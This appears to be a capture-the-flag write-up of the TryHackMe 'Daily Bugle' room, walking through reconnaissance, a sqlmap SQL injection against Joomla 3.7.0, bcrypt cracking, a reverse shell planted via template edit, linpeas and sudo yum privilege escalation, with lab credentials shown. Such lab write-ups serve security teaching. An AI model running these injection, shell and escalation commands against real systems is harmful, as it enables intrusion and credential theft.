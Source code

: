 ```yaml
---
layout: post
permalink: /posts/thm/daily-bugle
title: "Daily Bugle"
---
```


Scan the target machine with nmap

```
nmap -sC -sV <ip>
```

![nmap-scan](/assets/images/thm/daily-bugle/nmap-scan.png)

There are 3 open ports: 22, 80 and 3306. Visit the website

![website](/assets/images/thm/daily-bugle/website.png)

Wow.. Spider-man is accused of robbery. We don't have any additional imformation. Lets scan the target with Gobuster.

![gobuster](/assets/images/thm/daily-bugle/gobuster.png)

We have found that there is /administrator page.

![login-form](/assets/images/thm/daily-bugle/login-form.png)

We know the web site uses CMS Joomla. Lets use joomlascan.

```
/opt/joomscan/joomscan.pl -u http://10.10.255.36
```

![joomla-version](/assets/images/thm/daily-bugle/joomla-version.png)

We find out the Joomla version. Now we are going to use searchsploit to find a vlunerability for this version.

```
searchsploit joomla 3.7.0
```

![searchsploit](/assets/images/thm/daily-bugle/searchsploit.png)

![searchsploit-view](/assets/images/thm/daily-bugle/searchsploit-view.png)

This exploit shows us that we are going to use sqlmap

```
sqlmap -u "http://10.10.255.36/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![sqlmap1](/assets/images/thm/daily-bugle/sqlmap1.png)

Lets try to find the credentials in joomla. We can find the table name in the joomla documentations: https://docs.joomla.org/Tables/users

![joomla-table](/assets/images/thm/daily-bugle/joomla-table.png)

```
sqlmap -u "http://10.10.255.36/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

![sqlmap2](/assets/images/thm/daily-bugle/sqlmap2.png)

It looks we need to add the columns. Stop the scan, we have already had them from the documentation.

```
sqlmap -u "http://10.10.255.36/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' -C id,name,username,email,password,usertype,block,sendEmail,registerDate,lastvisitDate,activation,params --dump
```

We found the user jonah and his hashed password. We are going to use https://hashcat.net/wiki/doku.php?id=example_hashes to identify the hash and John the Ripper to crack it.

![hash-code](/assets/images/thm/daily-bugle/hash-code.png)

```
john hash.txt --wordlist=rockyou.txt --format=bcrypt
```

![john-result](/assets/images/thm/daily-bugle/john-result.png)

We were able to log in /administrator directory with jonah:spiderman123
The web interface confirms that jonah is a superuser of the joomla installation.

![super-user](/assets/images/thm/daily-bugle/super-user.png)

This means we can edit the template used by the blog.

On the top menu go to Extensions -> Templates -> Templates

![templates](/assets/images/thm/daily-bugle/templates.png)

Now create new file

![create-file](/assets/images/thm/daily-bugle/create-file.png)

Paste monkeyReverseShell in it and start listener

```
nc -lvnp 1234
```

go to

![url](/assets/images/thm/daily-bugle/url.png)

![shell](/assets/images/thm/daily-bugle/shell.png)

Stabalize shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

We are going to use linpeas

```
cd /dev/shm
```

![download](/assets/images/thm/daily-bugle/download.png)

```
./linpeas.sh
```

![linpeas](/assets/images/thm/daily-bugle/linpeas.png)

Linpeas found clear text password and we had found username jjameson in /home. Lets try to ssh with this password nv5uz9r3ZEDzVjNu

![ssh](/assets/images/thm/daily-bugle/ssh.png)

Lets find out if jjameson is allowed to do something as another user

![sudo-l](/assets/images/thm/daily-bugle/sudo-l.png)

go to https://gtfobins.github.io/gtfobins/yum/#sudo

![gtfo](/assets/images/thm/daily-bugle/gtfo.png)

Simply copy and paste the example code from gtfobin

![poc](/assets/images/thm/daily-bugle/poc.png)
